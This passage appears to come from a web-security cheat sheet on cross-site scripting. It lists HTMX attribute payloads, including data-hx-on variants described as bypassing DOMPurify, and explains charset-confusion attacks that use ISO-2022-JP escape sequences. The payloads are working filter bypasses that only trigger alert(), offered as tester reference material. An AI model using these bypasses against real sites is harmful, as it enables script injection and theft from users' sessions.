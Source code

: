 {% embed url="https://portswigger.net/research/evading-defences-using-vuejs-script-gadgets" %}
Detailed research into VueJS payloads and filter bypasses
{% endembed %}

#### [HTMX](https://htmx.org/docs/)

<pre class="language-html"><code class="lang-html">&#x3C;script src="https://unpkg.com/htmx.org@1.9.12">&#x3C;/script>

<strong>&#x3C;!-- Old syntax, simple eval -->
</strong>&#x3C;img src="x" hx-on="error:alert(1)" />
<strong>&#x3C;!-- Normally impossible elements allow injecting JavaScript into eval'ed function! -->
</strong>&#x3C;meta hx-trigger="x[1)}),alert(2);//]" />
&#x3C;div hx-disable>
<strong>  &#x3C;!-- Inside hx-disable, new syntax still works -->
</strong>  &#x3C;img src="x" hx-on:error="alert(3)" />
<strong>  &#x3C;!-- Everything can be prefixed with data-, bypassing DOMPurify! -->
</strong>  &#x3C;img src="x" data-hx-on:error="alert(4)" />
&#x3C;/div>
</code></pre>

### Alternative Charsets

{% embed url="https://www.sonarsource.com/blog/encoding-differentials-why-charset-matters/" %}
Source explaining XSS tricks when a charset definition is missing from a response, abusing ISO-2022-JP
{% endembed %}

{% hint style="info" %}
**Note**: In this section, some ESC characters are replaced with `\x1b` for clarity. You can copy a real ESC control character from the code block below:

<pre><code><strong>
</strong></code></pre>
{% endhint %}

If a response contains _any_ of the following two lines, it is _safe_ from the following attack.

<pre class="language-http" data-title="Safe"><code class="lang-http"><strong>Content-Type: text/html; charset=utf-8
</strong>...
<strong>&#x3C;meta charset="UTF-8">
</strong></code></pre>

If this charset is missing, however, things get interesting. Browsers **automatically detect encodings** in this scenario. The ISO-2022-JP encoding has the following special escape sequences:

<table><thead><tr><th width="195">Escape Sequence</th><th width="164">Copy</th><th>Meaning</th></tr></thead><tbody><tr><td><code>\x1b(B</code></td><td><pre><code>(B
</code></pre></td><td>switch to <em>ASCII</em> (default)</td></tr><tr><td><code>\x1b(J</code></td><td><pre><code>(J
</code></pre></td><td>switch to <em>JIS X 0201 1976</em> (backslash swapped)</td></tr><tr><td><code>\x1b$@</code></td><td><pre><code>$@
</code></pre></td><td>switch to <em>JIS X 0201 1978</em> (2 bytes per char)</td></tr><tr><td><code>\x1b$B</code></td><td><pre><code>$B
</code></pre></td><td>switch to <em>JIS X 0201 1983</em> (2 bytes per char)</td></tr></tbody></table>


[^1]: slashes (/) and quotes (") disallowed
[^2]: quotes (") disallowed
